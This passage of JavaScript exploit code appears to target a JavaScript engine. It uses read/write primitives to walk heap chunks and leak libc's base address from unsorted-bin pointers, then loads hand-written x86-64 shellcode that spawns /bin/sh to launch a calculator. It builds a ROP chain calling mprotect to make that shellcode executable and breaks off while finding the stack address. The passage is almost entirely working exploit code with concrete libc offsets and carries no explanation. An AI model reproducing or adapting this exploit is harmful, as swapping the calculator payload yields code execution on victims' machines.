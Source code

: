 ```
    console.log(hex(chunk)+"-&gt;"+hex(prev_size));
    if(parseInt(fd/0x10000000000)===0x7f)
    {
        console.log("[*]leak unsort bin(fd)");
        finded=fd;

        break;    
    }
    if(parseInt(bk/0x10000000000)===0x7f)
    {
        console.log("[*]leak unsort bin(bk)");
        console.log(hex(bk));
        break;    
    }
    }
    else if(size&lt;0x20){break;}

    size=parseInt(size/8)*8;
    chunk+=size;
}
if(finded!==0)
{    
    libc_base=parseInt(finded/0x100)*0x100-0x3c3b00;
    console.log("libc_base="+hex(libc_base));
}
else{
    console.log("Error when leak libc base!Try Again.");
}

//PUSH SHELLCODE
let shellcode=new Uint8Array(4096);
let shellcode_addr=wr.leak_obj(shellcode);

ptr=wr.read(shellcode_addr+0x18)-1;
shellcode_addr=wr.read(ptr+0x20);
console.log(hex(shellcode_addr));
let sc=[0x6a,0x3b,0x58,0x99,0x48,0xbb,0x2f,0x62,0x69,0x6e,0x2f,0x73,0x68,0x00,0x53,0x48,0x89,0xe7,0x68,0x2d,0x63,0x00,0x00,0x48,0x89,0xe6,0x52,0xe8,0x1c,0x00,0x00,0x00,0x44,0x49,0x53,0x50,0x4c,0x41,0x59,0x3d,0x3a,0x30,0x20,0x67,0x6e,0x6f,0x6d,0x65,0x2d,0x63,0x61,0x6c,0x63,0x75,0x6c,0x61,0x74,0x6f,0x72,0x00,0x56,0x57,0x48,0x89,0xe6,0x0f,0x05];
for(let i=0;i&lt;sc.length;i++){
    shellcode[i]=sc[i];
}

//ROP
let pop_rdi=0x21102+libc_base;
let pop_rsi=0x202e8+libc_base;
let pop_rdx=0x01b92+libc_base;
let retn=0xe9bbb+libc_base;
let mprotect=0x100eb0+libc_base;
let rop=[
pop_rdi,
parseInt(shellcode_addr/0x1000)*0x1000,
pop_rsi,
1024,
pop_rdx,
7,
mprotect,
shellcode_addr
]

//GET STACK_ADDR
let environ_addr=libc_base+0x3c5f98;
```